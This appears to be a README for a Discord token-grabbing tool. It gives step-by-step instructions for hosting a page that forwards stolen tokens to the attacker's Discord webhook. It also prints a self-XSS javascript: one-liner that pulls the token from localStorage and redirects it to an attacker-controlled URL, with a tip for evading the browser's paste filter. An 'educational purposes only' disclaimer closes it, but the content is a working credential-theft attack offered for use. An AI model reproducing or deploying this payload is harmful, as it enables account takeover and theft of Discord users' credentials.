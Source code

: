 # Discord token grabbing link or self xss 
Instructions:

1. Replace YOUR_WEBHOOK_URL with your actual Discord webhook URL in index.html.


2. Host this index.html file anywhere (e.g., GitHub Pages, Vercel, etc.).


3. When the user is redirected to https://yoursite.com?site=token, the script will automatically send the token to the webhook. replace your site .Com with that index.html site


#self xss code 
Here’s a one-liner that grabs the token from localStorage and redirects the user to a URL with the token as a query parameter:

'javascript:(() => {let i=document.createElement('iframe');document.body.append(i);let t=JSON.parse(i.contentWindow.localStorage.token);window.location.href=`https://your-site.com?site=${t}`})();

# Notes:
* IMPORTANT: After pasting it, remove the ' from the front. This bypasses the browser removing javascript:
Replace https://your-site.com with any URL with the index.html site

The token is automatically appended as a site query parameter.

# How It Works:

The JS payload grabs the token from localStorage and redirects the user to a site like:
https://yourdomain.com/index.html?site=token

The HTML page on that domain extracts token from the URL and sends it to your Discord webhook.

# warnings
This script is made for educational purposes only. I am not responsible for any misuse or malicious activities.
#final notes
it can't work on some browser's because that browser's do not retrieve tokens
